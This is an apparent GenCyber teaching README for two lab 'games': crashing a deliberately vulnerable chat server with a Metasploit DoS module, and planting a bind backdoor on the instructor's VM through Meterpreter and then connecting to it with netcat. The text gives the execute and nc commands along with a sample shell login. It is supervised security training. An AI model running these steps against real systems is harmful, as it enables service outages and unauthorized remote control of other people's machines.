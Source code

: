 # Motivating Games 

## Denial of service (DoS)

### Overview
In our lecture on <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Penetration Testing and Software Security</a>, we have exploited the vulnerable chat server (vchat) and deployed the buffer overflow attack against vchat. We were able to hack into the Windows VM through vchat.

The same vulnerability can be exploited for a denial of service (DoS) attack. In the DoS attack, the attacker sends a long message with garbage content, which overwrites the buffer and contents above the buffer as shown in the figure below. This messes up the function return address with garbage data. Now when the function returns, it returns to nowhere and *vchat* actually crashes because of this. The chat service is lost and access to the service is denied.

<img src="../Imgs/BufferOverflow-junk.png" width=480>

### DoS game

1. The instructor or a volunteer starts a vulnerable chat server C:\Tools\vchat\Server\vchat.exe on a Windows VM
   - Announce the IP of Windows VM running *vchat*
2. Everybody runs /home/kali/GenCyber/vchat/Client/client.py to chat with each other
   - Wait for everybody to send at least one message
3. Do not proceed further without the instructor's permission
4. Now anybody can deploy the DoS attack
   - Use armitage to scan the target Windows VM and find attacks
   - Click the found Windows VM (IP)
   - Deploy auxillary/dos/vchat/DoS

## Planting backdoor

### Overview

We want to show the danger of getting exploited and post-exploitation. If a compromised computer is planted with a backdoor, the attacker will be able to log into the compromised computer anytime later if the compromised computer is not fixed. 

### Backdoor game

1. Refer to Hands-on 2 of <a href="https://github.com/xinwenfu/GenCyber/tree/main/SoftwareSecurity">Lecture 2 Penetration Testing and Software Security</a>. Hack into the instructor's Windows VM
   - The instructor will show the IP of the Windows VM
2. Once the instructor's VM is compromised, start a Meterpreter shell. 
   - The Meterpreter shell can be used to upload a malware program from the attacker's computer to the victim computer. Let's assume the attacker uploads the malware, which is C:\Workshop\MalwareSamples\Backdoors\SimpleBindBackdoor\nice3.exe
   - The Meterpreter shell can be used to <a href="https://pentestwiki.org/metasploit-meterpreter-cheat-sheet/">execute the uploaded malware</a>. Run the following command to run the backdoor within the Meterprester shell
```
execute -f C:\\Workshop\\MalwareSamples\\Backdoors\\SimpleBindBackdoor\\nice3.exe
```
3. Start a terminal on your Kali VM and run the following command to log into the backdoor running on the instructor's Window VM
```
nc victim-ip 8080
```

Here is an example of a succesful login of the backdoor
```
$ nc 192.168.1.27 8080
Microsoft Windows [Version 10.0.19044.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Tools\vchat\Server>
```

Run a *dir& command and what do you see?

4. Tell the instructor once you can get into the backdoor. 
5. Other students can try to log into the backdoor similarly and notify the instructor if they can do it
